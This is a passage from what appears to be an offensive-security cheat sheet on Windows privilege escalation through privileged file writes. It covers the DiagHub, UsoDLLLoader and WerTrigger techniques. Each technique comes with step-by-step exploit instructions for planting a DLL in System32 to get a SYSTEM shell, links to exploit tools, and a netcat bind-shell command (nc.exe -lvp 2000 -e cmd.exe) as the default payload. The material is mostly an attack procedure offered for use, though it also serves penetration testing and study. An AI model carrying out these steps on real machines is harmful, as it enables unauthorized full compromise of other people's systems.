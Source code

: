 ### EoP - Privileged File Write

#### DiagHub

:warning: Starting with version 1903 and above, DiagHub can no longer be used to load arbitrary DLLs.

The Microsoft Diagnostics Hub Standard Collector Service (DiagHub) is a service that collects trace information and is programmatically exposed via DCOM. This DCOM object can be used to load a DLL into a SYSTEM process, provided that this DLL exists in the `C:\Windows\System32` directory.

**Exploit**

1. Create an [evil DLL](https://gist.github.com/xct/3949f3f4f178b1f3427fae7686a2a9c0) e.g: payload.dll and move it into `C:\Windows\System32`
2. Build https://github.com/xct/diaghub
3. `diaghub.exe c:\\ProgramData\\ payload.dll`

The default payload will run `C:\Windows\System32\spool\drivers\color\nc.exe -lvp 2000 -e cmd.exe`

Alternative tools:

* https://github.com/Accenture/AARO-Bugs/tree/master/CVE-2020-5825/TrigDiag
* https://github.com/decoder-it/diaghub\_exploit

#### UsoDLLLoader

:warning: 2020-06-06 Update: this trick no longer works on the latest builds of Windows 10 Insider Preview.

> An alternative to the DiagHub DLL loading "exploit" found by James Forshaw (a.k.a. @tiraniddo)

If we found a privileged file write vulnerability in Windows or in some third-party software, we could copy our own version of `windowscoredeviceinfo.dll` into `C:\Windows\Sytem32\` and then have it loaded by the USO service to get arbitrary code execution as **NT AUTHORITY\System**.

**Exploit**

1. Build https://github.com/itm4n/UsoDllLoader
   * Select Release config and x64 architecure.
   * Build solution.
     * DLL .\x64\Release\WindowsCoreDeviceInfo.dll
     * Loader .\x64\Release\UsoDllLoader.exe.
2. Copy `WindowsCoreDeviceInfo.dll` to `C:\Windows\System32\`
3. Use the loader and wait for the shell or run `usoclient StartInteractiveScan` and connect to the bind shell on port 1337.

#### WerTrigger

> Exploit Privileged File Writes bugs with Windows Problem Reporting

1. Clone https://github.com/sailay1996/WerTrigger
2. Copy `phoneinfo.dll` to `C:\Windows\System32\`
3. Place `Report.wer` file and `WerTrigger.exe` in a same directory.
4. Then, run `WerTrigger.exe`.
5. Enjoy a shell as **NT AUTHORITY\SYSTEM**
